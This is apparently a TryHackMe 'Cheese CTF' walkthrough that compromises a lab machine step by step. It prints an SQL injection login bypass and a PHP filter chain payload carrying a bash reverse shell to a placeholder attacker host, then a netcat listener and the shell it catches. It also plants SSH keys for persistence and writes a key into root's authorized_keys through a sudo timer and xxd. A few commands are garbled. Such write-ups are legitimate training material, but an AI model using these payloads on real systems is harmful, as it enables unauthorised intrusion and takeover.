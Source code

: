 # Cheese CTF (TryHackme)

## Machine Info:

* **IP:** 10.10.74.69
* **Name:** CheeseCTF

---

## Step 1 | Rustscan 

**Command**

```
rustscan -a <IP>
```

**Output:**

```
Open 10.10.74.69:1
Open 10.10.74.69:2
Open 10.10.74.69:3
Open 10.10.74.69:6
Open 10.10.74.69:7
Open 10.10.74.69:4
Open 10.10.74.69:5
Open 10.10.74.69:8
Open 10.10.74.69:9
Open 10.10.74.69:31
Open 10.10.74.69:39
Open 10.10.74.69:37
Open 10.10.74.69:32
Open 10.10.74.69:42
Open 10.10.74.69:40
Open 10.10.74.69:43
Open 10.10.74.69:33
Open 10.10.74.69:45
Open 10.10.74.69:34
Open 10.10.74.69:50
Open 10.10.74.69:52
Open 10.10.74.69:35
Open 10.10.74.69:55
Open 10.10.74.69:56
Open 10.10.74.69:11
Open 10.10.74.69:12
Open 10.10.74.69:10
Open 10.10.74.69:36
Open 10.10.74.69:13
Open 10.10.74.69:16
Open 10.10.74.69:17
Open 10.10.74.69:19
Open 10.10.74.69:18
Open 10.10.74.69:14
Open 10.10.74.69:15
Open 10.10.74.69:20
Open 10.10.74.69:21
Open 10.10.74.69:25
Open 10.10.74.69:23
Open 10.10.74.69:22
Open 10.10.74.69:24
Open 10.10.74.69:26
Open 10.10.74.69:27
Open 10.10.74.69:28
Open 10.10.74.69:29
Open 10.10.74.69:30
...
Almost all ports were open. This was intended to confuse or mislead the target.
```

## Step 2 | Visit Page

I vizited to `http://10.10.74.69` page.

**Found**

`/login.php`

## Step 3 | OWASP Top Vulnerabilities

I tried XSS, Brute-Force, SQLi or smth to this site and i found `SQLi` vulnerability.

```
username: admin' || '1'='1'; -- -

password: <random>
```

**Found**

Accessed `Admin` panel.

## Step 4 | Found LFI

The admin panel looked quite empty, but when I checked the URL, I noticed a Local File Inclusion vulnerability. By manipulating the parameters in the URL, we can include files, but the server is using PHP filters. Therefore, I will use php_filter.

## Step 5 | PHP Filter For LFI Attack

```
python3 php_filter_chain_generator.py --chain "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/YourIP/YourPort 0>&1'\"); ?>" | grep "^php" > payload.txt

cat payload.txt

nc -lvnp <your_port>
```

We remove the .php part and everything after it in the URL, then paste this payload.exe

**Output:**

```
listening on [any] 1234 ...
connect to [10.21.230.108] from (UNKNOWN) [10.10.74.69] 41544
bash: cannot set terminal process group (928): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-74-69:/var/www/html$ _
```

## Step 6 | Linpeas.sh

**Sacrifice Machine:**

```
wget http://<your ip>/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
```

**Found:**

`/etc/systemd`/system/exploit.timer

and

`/home/comte/.ssh/authorized_keys`


## Step 7 | Create SSH Key in AttackerMachine

```
ssh-keygen -t rsa

cat .ssh/id_rsa.pub
```

**Output:**

`ssh-rsa AAAAB3Nz...`

## Step 8 | Write Your SSH Key to authorized_keys

**SacrificeMachine:**

```
echo "YOUR_SSH_KEY
```

## Step 9 | Connect to SSH With id_rsa.pub

**AttackerMachine:**

```
ssh -i id_rsa comte@<IP>

ls
```

**Found:**

`user.txt`

## Step 10 | Privilege Escalation

**SacrificeMachine:**

```
sudo -l
```

**Output:**

```
User comte may run the following commands on ip-10-10-74-69:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```

**SacrificeMachine:**

```
cat /etc/systemd/system/exploit.timer
```

**Output:**

```
[Unit]                                              
Description=Exploit Timer

[Timer]                             
OnBootSec=     ===>     OnBootSec=5s   //CHANGE LIKE THIS

[Install]
WantedBy=timers.target
```

**SacrificeMachine:**

```
cat exploit.service
```

**Found:**

```
....../xxd
```

Search "xxd" on GTFOBins. Select to "File Write"

```
echo "YOUR_SSH_KEY" | /opt/xxd | /opt/xxd-r - /root/.ssh/authorized_keys
```

## Step 11 | Connect SSH With Root User

**AttackerMachine**

```
ssh -i id_rsa root@IP

ls
```

**Found:**

`root.txt`
